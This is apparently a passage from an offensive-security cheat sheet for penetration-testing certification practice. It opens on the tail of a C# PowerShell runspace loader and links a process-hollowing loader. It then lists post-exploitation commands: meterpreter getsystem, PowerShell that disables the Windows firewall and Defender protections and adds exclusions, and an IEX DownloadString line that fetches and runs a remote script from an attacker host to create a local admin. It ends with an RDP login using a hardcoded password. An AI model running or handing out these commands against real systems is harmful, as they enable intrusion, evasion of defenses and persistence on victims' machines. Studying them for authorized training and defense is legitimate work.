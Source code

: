 ```csharp
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

[run.txt](https://raw.githubusercontent.com/Extravenger/OSEPlayground/refs/heads/main/07%20-%20Powershell%20Scripts/03%20-%20Loaders/procHollow.ps1)
PowerShell loader (e.g., Process Hollowing) — keep your script server‑side and version‑controlled.

---

## Post‑Exploitation

### Quick PrivEsc (SeImpersonate)

```bash
meterpreter > getsystem -t 5
```

### Defense Evasion & RDP

> **Run as SYSTEM** when applicable.

```powershell
NetSh Advfirewall set allprofiles state off

"C:\Program Files\Windows Defender\MpCmdRun.exe" -removedefinitions -all

Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend
Add-MpPreference -ExclusionPath %SystemRoot%\Tasks
Add-MpPreference -ExclusionExtension '.exe'
```

Enable RDP & create local admin (scripted):

```powershell
# https://raw.githubusercontent.com/n000b3r/PrivEsc/refs/heads/main/Windows/post_scripts/post_admin.ps1

IEX(New-Object Net.WebClient).DownloadString("http://<HTTP_HOST>/post_admin.ps1")
```

From attacker:

```bash
rdesktop <VICTIM_IP> -u "bill" -p "P@ssw0rd123!" -g 100% -x 0x80
```
